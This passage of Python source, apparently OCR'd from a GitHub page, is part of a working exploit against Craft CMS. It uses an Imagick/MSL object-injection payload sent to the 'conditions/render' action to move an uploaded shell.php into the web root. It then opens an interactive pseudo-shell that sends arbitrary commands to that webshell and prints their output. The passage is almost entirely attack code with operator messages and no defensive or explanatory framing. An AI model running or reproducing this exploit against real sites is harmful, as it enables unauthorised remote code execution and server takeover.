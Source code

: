 ```python
print(f'\033[1;96m[+]\033[0m create shell.php in {tmp_dir}')
r = requests.post(url, data=data, files=files) #, proxies={'http' : 'http://127.0.0.1:8080'}) #  


# Use the Imagick trick to move the webshell in DOCUMENT_ROOT

data = {
    "action": "conditions/render",
    "configObject[class]": r"craft\elements\conditions\ElementCondition",
    "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmp_dir + r'/php*"}}}'
}

print(f'\033[1;96m[+]\033[0m trick imagick to move shell.php in {document_root}')
r = requests.post(url, data=data) #, proxies={"http": "http://127.0.0.1:8080"})

if r.status_code != 502:
    print("\033[1;31m[-]\033[0m Exploit failed")
    exit()

print(f"\n\033[1;95m[+]\033[0m Webshell is deployed: {HOST}/\033[1mshell.php\033[0m?cmd=whoami")
print(f"\033[1;95m[+]\033[0m Remember to \033[1mdelete shell.php\033[0m in \033[1m{document_root}\033[0m when you're done\n")
print("\033[1;92m[!]\033[0m Enjoy your shell\n")

url = HOST + '/shell.php'

## Pseudo Shell
while True:
    command = input('\033[1;96m>\033[0m ')
    if command == 'exit':
        exit()

    if command == 'clear' or command == 'cls':
        print('\n' * 100)
        print('\033[H\033[3J', end='')
        continue

    data = {'cmd' : command}
    r = requests.post(url, data=data) #, proxies={"http": "http://127.0.0.1:8080"})

    # exit if we have an error
    if r.status_code != 200:
        print(f"Error: status code {r.status_code} for {url}")
        exit()

    res_command = r.text
    res_command = re.sub('^caption:', '', res_command)
    res_command = re.sub(' CAPTION.*$', '', res_command)

    print(res_command, end='')
```

